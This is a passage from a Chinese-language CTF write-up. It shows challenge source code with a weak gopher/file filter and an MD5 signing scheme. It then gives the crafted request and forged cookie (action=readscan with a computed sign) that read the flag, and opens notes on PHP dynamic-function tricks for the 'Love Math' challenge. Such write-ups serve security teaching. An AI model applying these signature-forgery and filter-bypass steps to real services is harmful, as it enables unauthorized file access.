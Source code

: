 ```python
def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```

>   urllib.unquote 是url解码   
>
>   urlib.urlencode 是url编码  
>
>   request.args.get获取单个值

geneSign页面：传param参数然后返回getSign()函数。

De1ta页面：传action和sign两个cookie，还有一个get的param，然后绕waf，waf主要是过滤了两段的空格，转小写，然后不能使用gopher和file两个伪协议，

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

需要：`secert_key + flag.txtrand + scan`

构造`/geneSign?param=flag.txtread`得到cookie：`0dd168cd293d52dfc3908caa3847a57d`

然后访问`De1ta`页面：

`Cookie: action=readscan;sign=0dd168cd293d52dfc3908caa3847a57d`

拿到flag

# 0x2F.[CISCN 2019 初赛]Love Math

>   知识点：
>
>   **PHP函数：**
>
>   scandir() 函数：返回指定目录中的文件和目录的数组。
>   base_convert() 函数：在任意进制之间转换数字。
>   dechex() 函数：把十进制转换为十六进制。
>   hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。
>   var_dump() ：函数用于输出变量的相关信息。
>   readfile() 函数：输出一个文件。该函数读入一个文件并写入到输出缓冲。若成功，则返回从文件中读入的字节数。若失败，则返回 false。您可以通过 @readfile() 形式调用该函数，来隐藏错误信息。
>   语法：readfile(filename,include_path,context)
>
>   **动态函数**
>
>   php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数例如：$function = "sayHello";$function();
>
>   **php中函数名默认为字符串**
>
>   例如本题白名单中的asinh和pi可以直接异或，这就增加了构造字符的选择
